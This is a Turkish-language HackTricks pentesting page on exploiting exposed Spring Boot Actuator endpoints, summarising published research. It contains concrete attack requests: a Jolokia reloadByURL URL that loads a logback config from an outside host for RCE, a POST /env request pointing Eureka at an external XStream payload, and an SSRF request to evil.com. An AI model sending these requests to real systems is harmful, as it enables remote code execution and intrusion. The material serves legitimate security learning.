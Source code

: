 # Spring Actuators

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahraman olmaya kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini alın**](https://peass.creator-spring.com)
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı göndererek HackTricks ve HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## **Spring Auth Atlatma**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Şuradan** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Spring Boot Actuators'ü Sömürme

**Orijinal yazıyı kontrol edin** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Ana Noktalar:**

* Spring Boot Actuators, `/health`, `/trace`, `/beans`, `/env` gibi uç noktaları kaydeder. Sürümler 1'den 1.4'e kadar, bu uç noktalara kimlik doğrulama olmadan erişilebilir. Sürüm 1.5'ten itibaren yalnızca `/health` ve `/info` varsayılan olarak hassas olmayan uç noktalardır, ancak geliştiriciler genellikle bu güvenliği devre dışı bırakırlar.
* Belirli Actuator uç noktaları hassas verileri açığa çıkarabilir veya zararlı eylemlere izin verebilir:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart` ve `/heapdump`.
* Spring Boot 1.x'te actuator'ler kök URL altında kaydedilirken, 2.x'te `/actuator/` temel yolun altında kaydedilir.

### **Sömürü Teknikleri:**

1. **'/jolokia' Üzerinden Uzaktan Kod Yürütme**:
* `/jolokia` actuator uç noktası, HTTP erişimine izin veren Jolokia Kütüphanesini açığa çıkarır.
* `reloadByURL` eylemi, dış URL'den günlüğü yeniden yüklemek için sömürülebilir, bu da oluşturulmuş XML yapılandırmaları aracılığıyla kör XXE veya Uzaktan Kod Yürütme'ye yol açabilir.
* Örnek sömürü URL'si: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **'/env' Üzerinden Yapılandırma Değişikliği**:
* Spring Cloud Kütüphaneleri varsa, `/env` uç noktası çevresel özelliklerin değiştirilmesine izin verir.
* Özellikler, Eureka servisURL'sindeki XStream deserializasyon açığı gibi zafiyetlerin sömürülmesi için manipüle edilebilir.
*   Örnek sömürü POST isteği:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Diğer Faydalı Ayarlar**:
* `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url` ve `spring.datasource.tomcat.max-active` gibi özellikler, SQL enjeksiyonu veya veritabanı bağlantı dizelerinin değiştirilmesi gibi çeşitli sömürüler için manipüle edilebilir.

### **Ek Bilgiler:**

* Varsayılan actuator'lerin kapsamlı bir listesi [burada](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) bulunabilir.
* Spring Boot 2.x'te `/env` uç noktası özellik değişiklikleri için JSON formatını kullanır, ancak genel kavram aynı kalır.

### **İlgili Konular:**

1. **Env + H2 RCE**:
* `/env` uç noktası ve H2 veritabanının kombinasyonunu sömürme detayları [burada](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) bulunabilir.
2. **Yanlış Yol Adı Yorumlamasıyla Spring Boot Üzerinde SSRF**:
* Spring çerçevesinin HTTP yol adlarında matris parametrelerini (`;`) işleme şekli, Sunucu Tarafı İstek Sahteciliği (SSRF) için sömürülebilir.
*   Örnek sömürü isteği:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

